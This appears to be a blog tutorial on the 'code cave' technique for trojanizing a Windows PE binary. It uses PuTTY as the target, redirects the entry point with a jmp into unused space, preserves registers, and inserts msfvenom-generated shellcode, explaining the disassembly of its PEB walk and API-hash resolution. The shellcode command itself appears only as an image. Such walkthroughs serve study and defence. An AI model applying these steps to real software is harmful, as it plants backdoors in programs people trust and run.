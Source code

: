 ```yaml
---
title: "Code Cave Exoploitation"
date: 2025-09-09    
categories: [Exploit]
tags: [Assembly]
image: "https://i.pinimg.com/736x/9b/23/77/9b2377b3eef687dec79416b6a9ce52ce.jpg"
---
```


# Introduction:

In this post I will explore a technique of modification and exploitation of binaries, classified as Code Cave. This technique is nothing more than the exploitation of a memory region or unused space within an executable, usually filled with null bytes (0x00) or irrelevant instructions, where an attacker can inject malicious code without significantly altering the file size.  
Exploiting a Code Cave will involve locating this empty space, redirecting the program's execution flow, and executing a shellcode.

# Diagram:

![alt text](/assets/post6/diagrama.png)

# Starting our exploitation:
For this test I will use a vulnerable version of the software Putty, which is a free SSH, Telnet, and serial program used to remotely access and manage servers and network devices.  
To start building our exploit, I used a tool I developed, available in my GitHub repository called [Code_Cave](https://github.com/LipeOzyy/Code_Cave), which is a C tool to find code caves in Portable Executable (PE) files on Windows. It scans the sections of the binary and identifies "empty" byte sequences (0x00 or 0x90) that can be used to inject code.

Using it on the target binary, I got the following output:  
![alt text](/assets/post6/code_cave_tool.png) 

With this, we already have a starting point for our exploit.  
As previously understood, in our binary, to perform the exploit, besides finding a code cave, we need to redirect the execution flow of our executable to start creating our payload.  
For this, we will debug using x32dbg.

## Debug:

![alt text](/assets/post6/entrypoint.png) 

When we start the executable in the debugger, we land at the entry point of the application, and this is where we will make our first change in the structure. We will use an Assembly instruction so that when the execution flow starts, it makes a call to the memory address where our payload is located. For this, we will use the address discovered by my tool: 0x0046A419.  

![alt text](/assets/post6/in1.png)  

![alt text](/assets/post6/in2.png)

Here, the jmp instruction is being used to alter the execution flow. The address 0044777F represents the point in the code where normal execution would occur, but the jmp forces the CPU to continue execution from 0x0046A419, where our code cave is located, and later where our shellcode will be. After changing this instruction, I did a step into the set address, where we land in an empty area.  

![alt text](/assets/post6/area_vazia.png)

Before starting to build the payload, I introduced some instructions: pushad and pushfd. These commands serve to preserve the original program context. pushad saves all general-purpose registers on the stack, and pushfd stores the processor flags state. This way, the injected code can execute without corrupting the normal functioning of the application.

![alt text](/assets/post6/pushadpushfd.png)

## Shellcode in Assembly:
First, I generated the shellcode using msfvenom with the following instructions:  
![alt text](/assets/post6/msfvenom.png)

Now I will explain the shellcode in assembly, summarizing each block of instructions.


```diff
+ 0046A41B   cld
+ 0046A41C   pushad
+ 0046A41D   mov ebp,esp
+ 0046A41F   xor eax,eax
+ 0046A421   mov edx,dword ptr fs:[eax+30]
+ 0046A427   mov edx,dword ptr ds:[edx+C]
+ 0046A42A   mov edx,dword ptr ds:[edx+14]
+ 0046A42D   mov esi,dword ptr ds:[edx+28]
+ 0046A430   movzx ecx,word ptr ds:[edx+26]
```
Here it is still an environment preparation, EBP is adjusted to point to the current stack, EAX is zeroed, then there are reads from the segment fs:[...]. From there, pointers are extracted in a chain, possibly to obtain process structures.

```diff
+ 0046A436   xor edi,edi
+ 0046A438   cmp al,61
+ 0046A43C   jl 0046A440
+ 0046A43E   sub al,20
+ 0046A440   ror edi,D
+ 0046A443   add edi,eax
+ 0046A445   loop 0046A439
```
This block reads bytes from memory and transforms each of them into an accumulated value in the edi register, using bit rotation (ror) and addition. In summary, instead of storing API names like LoadLibraryA or GetProcAddress in the payload, which would make our exploit much easier to detect—it uses this calculation to identify functions at runtime, stealthily.

```diff
+ 0046A447   push edx
+ 0046A448   push edi
+ 0046A449   mov ecx,dword ptr ds:[edx+10]
+ 0046A44C   mov ecx,dword ptr ds:[edx+3C]
+ 0046A44F   mov ecx,dword ptr ds:[ecx+78]
+ 0046A452   jecxz 0046A49D
+ 0046A454   add ecx,edx
+ 0046A456   push ecx
+ 0046A457   mov ebx,dword ptr ds:[ecx+20]
+ 0046A45A   add ebx,edx
+ 0046A45C   mov ecx,dword ptr ds:[ecx+18]
+ 0046A45F   jecxz 0046A49C
+ 0046A461   dec ecx
+ 0046A462   mov esi,dword ptr ds:[ebx+ecx*4]
+ 0046A465   add esi,edx
+ 0046A467   xor edi,edi  
```
This block will traverse the internal structures of the PE format, accessing the header (PE Header). The purpose is to identify the addresses of functions exported by DLLs like kernel32.dll. When the hash calculated in the previous block matches that of a target function, the code already knows where it is in memory, allowing it to dynamically call critical Windows APIs.

![alt text](/assets/post6/emass.png)

## Executing the exploit:
![alt text](/assets/post6/explloit.png)


